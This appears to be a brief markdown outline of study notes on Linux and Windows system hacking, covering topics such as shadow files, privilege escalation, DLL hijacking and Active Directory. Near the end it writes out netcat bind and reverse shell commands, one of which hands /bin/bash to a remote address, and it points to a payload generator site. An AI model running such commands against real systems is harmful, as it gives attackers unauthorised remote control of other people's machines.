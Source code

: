 - System hacking is defined as the compromise between computer systems and software to access the target computer and steal or misuse their sensitive information.
- Linux System Hacking
	- Hack Linux using the shadow file.
	- ssh key leak
	- Remote code Execution
	- privilege Escalation
	- bug on kernel
- Window system hacking
	- fundamental of window
	- DLL Hijacking
	- Powershell Scripting and usage
	- managing service, Users
	- active directory system
- Remote shell access(bind shell, reverse shell) payload
	- netcat -lvp 2222 
	- netcat 192.168.1.1 2222 -e /bin/bash
- payload (revshells.com)

- 